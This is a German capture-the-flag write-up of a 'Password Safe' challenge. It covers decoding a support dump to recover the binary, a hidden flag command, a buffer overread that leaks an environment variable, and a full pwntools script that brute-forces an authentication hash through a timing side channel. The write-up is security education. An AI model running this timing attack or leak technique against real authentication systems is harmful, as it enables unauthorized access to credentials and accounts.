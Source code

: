 # Password Safe

> A student group developed a new tool in a seminar, which is now being used by the admins at the HackHigh institute. But the students say that this software was never intended to be in production use...


![](screenshots/Pasted%20image%2020230315102438.png)

Ein Passwort Safe also, bei dem wir erstmal nicht viel ausrichten können. Leider gibt es auch (vorerst) kein Binary zum lokalen Testen. Warum also nicht erstmal um support bitten? Das support Feature spuckt einen langen, scheibar base64 kodierten Text aus, den ich erstmal in [CyberChef](https://gchq.github.io/CyberChef) kopiert habe.

![](screenshots/Pasted%20image%2020230327083205.png)

Die erste Zeile ist auch tatsächlich lesbar - aber was ist der Rest? Da die erste Zeile sagt, dass es sich um eine Datei handelt, habe ich den Output (ohne die erste Zeile) als Datei gespeichert. Dabei ist ein erster Blick auf die ersten Zeichen der Datei interessant. Wenn man das googelt, stößt man schnell darauf, dass es sich dabei um die Signatur von Bzip2 handelt. Cyberchef schlägt beim Speichern auch direkt `.bz2` als Endung vor.


![](screenshots/Pasted%20image%2020230327084147.png)

Entpackt finden wir darun einen keysafe-debug Ordner mit interessanten Dateien. Neben der ersten Flag in der Datei `license` befindet sich hier auch das Binary der Challenge, das sich jetzt in Ghidra zur weiteren Analyse laden lässt.

In der Funktion `react()` werden die Eingaben verwaltet. Hier fällt auf, dass es neben den im Hilfe-Text angegebenen Kommandos help, authenticate (wobei auth anscheinend reicht), get-keys, support, architecture und exit auch noch die Kommandos `fl4g-obfuscate` und `fl4g` gibt. Letzteres liefert und auch unauthentisiert die zweite Flag.

Noch eine Flag ist unauthentisiert erreichbar. Der User-Input, der keine festgelegte Länge hat, wird in einen buffer der Länge 102 kopiert und anschließend wird bis zum 818. Zeichen jeder Zeilenumbruch/Return durch 0 ersetzt. Im Anschluss wird die Server-Status Flag aus den Umgebungsvariablen geladen. Wenn jetzt der Input aber bis zum 818. Zeichen keinen Zeilenumbruch oder Return drin hat, werden bei der anschließenden Ausgabe von `Command <mein-input> not recognized.` auch die anschließenden Zeichen, also die Flag ausgegeben.

![](screenshots/Pasted%20image%2020230327090612.png)

![](screenshots/Pasted%20image%2020230327090648.png)

Jetzt wird es aber wirklich Zeit, sich auch mal anzumelden bei dem Key Safe. Aber wie? Hier habe ich lange auf die Funktion `equal_hashes()` gestarrt, bis es mir plötzlichaufgefallen ist:

![](screenshots/Pasted%20image%2020230327091135.png)

Der Hash wird Zeichen für Zeichen verglichen. Bei Ungleichheit wird 4 Millisekunden geschlafen. Je mehr Zeichen also korrekt sind, desto kürzer dauert der Vergleich. Das lässt sich für eine Timing-Attacke ausnutzen. Ich habe dafür ein Script geschrieben, das erst einmal ein paar zufällig erzeugte 64 Zeichen lange Passwörter ausprobiert und davon das mit der kürzesten Startzeit als Ausgangspunkt nimmt. So ist die Gesamtlaufzeit schon zu Beginn ein wenig optimiert.

Anschließend wird Zeichen für Zeichen je 10 mal durchiteriert und das Zeichen ausgewählt, das am häufigsten die kürzeste Ausführungszeit zur Folge hatte.


```python
#! /bin/python3

from pwn import *
from time import time
import random


context.log_level = 'critical'

chars = "abcdefABCDEF0123456789"

def test_password(pw):
	conn = remote('10.65.56.105',1337)

	r = conn.recvuntil(b'What can I do for you today? ')
	conn.sendline(b'auth')
	r = conn.recvuntil(b'Hashed-Password: ')
	
	start = time()
	conn.sendline(pw.encode())
	r = conn.recv()
	end = time()
	duration = end-start
	
	conn.close()
	return duration

best_choice = [5, 'x']

for i in range(20):
	pw_list = random.choices(chars, k=64)
	pw = ''.join(pw_list)
	duration = test_password(pw)
	if duration < best_choice[0]:
		best_choice[0] = duration
		best_choice[1] = pw

print(best_choice)

pw = best_choice[1]
pw_list = list(pw)


for i in range(64):
	smallest = []

	for j in range(10):

		local_smallest = [5, 'x']
		for c in chars:
			
			pw_list[i] = c
			pw = ''.join(pw_list)
			
			duration = test_password(pw)
			
			if (duration < local_smallest[0]):
				local_smallest[0] = duration
				local_smallest[1] = c 
		print(local_smallest)
		smallest.append(local_smallest[1])

	found = max(set(smallest), key = smallest.count)
	print('Found: ', i, found, smallest)
	pw_list[i] = found

print('Hash: ', ''.join(pw_list))		
```


Das Script habe ich zweimal laufen lassen, da der erste Versuch noch nicht den (komplett) richtigen Hash geliefert hat. Die beiden Ergebnisse haben sich nur an wenigen Stellen unterschieden, so dass ich das Script nochmal in abgewandelter Form für ein Finetuning an den entsprechenden Stellen laufen lassen konnte. Das Ergebnis war der richtige Hashwert und zur Belohnung die vierte Flag nach der Authentisierung beim Keysafe.
